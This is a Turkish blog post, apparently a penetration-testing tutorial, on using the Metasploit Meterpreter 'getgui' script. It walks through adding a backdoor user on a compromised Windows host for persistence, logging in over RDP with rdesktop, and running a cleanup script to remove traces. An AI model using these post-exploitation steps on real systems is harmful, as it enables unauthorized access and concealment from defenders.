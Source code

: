 ```yaml
---
draft: false
title: MSF Remote Desktop Modülü
date: 2017-05-05T13:30:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için getgui komutu oldukça kullanışlıdır.
url: /tr/msf-remote-desktop-modulu/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
linkTitle: MSF Remote Desktop
translationKey: msfremotedesktop
weight: 1
---
```



Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için `getgui` komutu oldukça kullanışlıdır.

Bu yazımızda `getgui` komutunu kullanarak sistemde bir kullanıcı oluşturup ardından `rdesktop` komutu ile bu bilgisayara nasıl bağlanabileceğimizi göreceğiz.

## Uzak Masaüstü Bağlantısı

Hedef bilgisayarda Meterpreter shell açtığınızı varsayıyoruz. Şimdi işe `getgui` komutunu kullanarak görsel bağlantı sağlamak için gerekli olan kullanıcı adı ve parolaya ihtiyacımız var. Böyle bir kullanıcı adı ve parolası oluşturduğunuzda kalıcılık sağlamış olursunuz.

Öncelikle `getgui` yardım başlıklarına bakalım.

```bash
meterpreter > run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```

## Kullanıcı Ekleme

Genel olarak kullanımda `-u` kullanıcı adını, `-p` parolayı belirtmek için kullanılır. `getgui` komutunu aşağıdaki örneğe benzer şekilde kullandığınızda sisteme yeni bir kullanıcı eklemiş olursunuz.

```bash
meterpreter > run getgui -u loneferret -p password
> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
> Carlos Perez carlos_perez@darkoperator.com
> Language detection started
>   Language detected: en_US
> Setting user account for logon
>   Adding User: loneferret with Password: password
>   Adding User: loneferret to local group ''
>   Adding User: loneferret to local group ''
> You can now login with the created user
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter >
```

## Uzak Masaüstü Bağlantısı

Artık kullanıcı oluşturuldu. Aynı ağda bulunan başka bir bilgisayardan, bu kullanıcı adı ve parolayı kullanarak uzak masaüstü bağlantısı yapabilirsiniz.

```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```

## Log Temizleme

Hedef sistemde ne kadar çok oynama yaparsanız, log kayıtlarına kaydedilme ihtimaliniz de o kadar artar. Bu sebeple mümkün olduğunca yetkisiz işlem yapmamalı veya gereken yerlere müdahale etmekle yetinmelisiniz.

`getgui` ile oluşturduğunuz kullanıcı ve oturum bilgilerini log kayıtların temizlemek isteyebilirsiniz. Bunun için aşağıdaki komut örneği işinize yarayacaktır. Örnekte kullanılan `/root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc` dosyasının en güncel halini yine aynı klasör içinden kontrol edebilirsiniz.

```bash
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
> Running Command List ...
>   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter >
```
